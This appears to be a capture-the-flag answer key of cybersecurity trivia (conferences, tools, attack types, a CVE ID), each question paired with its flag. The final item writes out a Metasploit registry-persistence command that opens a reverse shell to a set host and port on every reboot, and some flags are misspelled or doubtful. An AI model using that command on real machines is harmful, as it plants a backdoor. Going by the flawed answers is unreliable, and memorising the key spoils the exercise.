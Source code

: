 ### Business Gathering 

```tex
I am a huge cyber security conference that run every year in three places : San Francisco, Singapore and Lately AbuDhabi. Who am I ? No spaces in answering
```
- Flag: RSAConference

###Hackers Gathering

```tex
I am a cyber security conference that run in August every year in Las Vegas. I am the largest gathering for Hackers in the whole world. No Credit cards, no online booking , Only Cash allowed . Who am I ?
```
- Flag: defcon

### Founder

```tex
I have founded two of the most famous Cyber Security conferences across the globe in Las Vegas, USA. I am not The Dark Knight. I am The DarK--------?
```
- Flag: tangent

### Back To History

```tex
Back to History: I am the First Computer Virus ever known . You will find me in your head . My name is ……..?
```
- Flag: brain

### Contribute

```tex
I am an Organization that releases the Top 10 Vulnerabilities in Application Security . I am ……?
```
- Flag: OWASP

###  Greeks

```tex
The art of hiding messages or information inside other image / text or data
```
- Flag: steganography

###  Robot

```tex
A group or network of machines that are controlled by an attacker to do a certain task
```
- Flag: bot

### Japanese Warrior

```tex
I am a linux distrubition with two versions one for Web Penetration Testing and the other for attacking smart grids. What is my smart grid distribution name ?
```
- Flag: SamuraiSTFU

### Close Look

```tex
I am a linux distribution that has many tricks to do packet and traffic analysis. Who am I ?
```
- Flag: Packetrix

### Pay Me

```tex
I will lock your machine screen or files till you pay me. Who am i ?
```
- Flag: randomware

### TrendMicro Conference

```tex
Periodic Conference in many cities hosted by Trend Micro
```
- Flag: CLOUDSEC

## Intercept

```tex
the attacker intercept information between receiver and sender. what is the attack name ?
```
- Flag: mitm

## Do you trust senders

```tex
Receive malware from a known person. What is the attack type ?
```
- Flag: spoofing

## My box

```tex
I am a professional pen tester. I do not need to know any information from the customer, I do ....box pen test
```
- Flag: black

## Crash

```tex
enter a lot of random trash till the application crash
```
- Flag: fuzzing

## Scan

```tex
One of the famous, free port scanner. Who am i ?
```
- Flag: nmap

## Capture

```tex
Network analysis tool used to captured packets and present it in readable format
```
- Flag: wireshark

## Precious Vulnerability

```tex
a security flaw that is not yet known
```
- Flag: zeroday

## SCADA

```tex
A worm that targeted SCADA Systems
```
- Flag: Stuxnet

## htmlentities

```tex
True or False , htmlentities ( convert special characters to its html entity ) can't be exploited to run XSS payload ?
```
- Flag: False

## Encoding

```tex
What type of this encoded , hashed text "aGVsbG93b3JsZDEx" ?
```
- Flag: base64

## Reward

```tex
I receive a reward or mentioned on a wall of fame when i found vulnerability . I am participating in ..... program? Format of Flag ( Do not use spaces)
```
- Flag: bugbounty

## Hide me

```tex
I act as a middle man to forward requests from different devices to access external resources . I am a ......?
```
- Flag: proxy

## Cash

```tex
I am a type of attacks that used to spread malware. I push data in the cache records of your DNS. I am cache ........?
```
- Flag: poisoning

## User Name

```tex
He is a user name or account that by default has access to all commands and files on a Linux or other Unix-like operating system.
```
- Flag: root

## Crime scene

```tex
Process of analyzing and investing computer devices, on suspecting that such devices may have been used in a cybercrime
```
- Flag: forensics

## CVE Number

```tex
What is the CVE ID that is related to EternalBlue
Flag Format: XXX-XXXX-XXXX
```

- Flag: CVE-2017-0144

## one click

```tex
a type of malicious exploit of a website where unauthorized commands are submitted from a user that the web application trusts .
```
- Flag: CSRF

## remove

```tex
I need to remove a file called secret in my home directory. which command should i use 
```
- Flag: rm ~/secret

## Distribution

```tex
Debian-based distribution with a collection of security and forensics tools. It features timely security updates, support for the ARM architecture
The flag without spaces 
```
- Flag: KaliLinux

## security model

```tex
is a model designed to guide policies for information security within an organization
```
- Flag: CIA

## Persistence

```tex
You want to achieve persistence using Meterpreter’s persistence module by creating an autorun registry file and getting a shell automatically every time the user restarts the PC

Persistence options 

    Minutes after restarting the system: 7 
    Your Local port: 1337
    Your local host IP: 192.168.0.177

Flag format is: xxx xxxxxxx/xxxxxxx/xxxxx/xxxxxxxx_xxxxxxxxxxx xxxxx_xxxx=xxx  xxxxx=xxxx xxxxx=xxx.xxx.x.xxx
```
- Flag: use exploit/windows/local/registry_persistence SLEEP_TIME=420 LPORT=1337 LHOST=192.168.0.177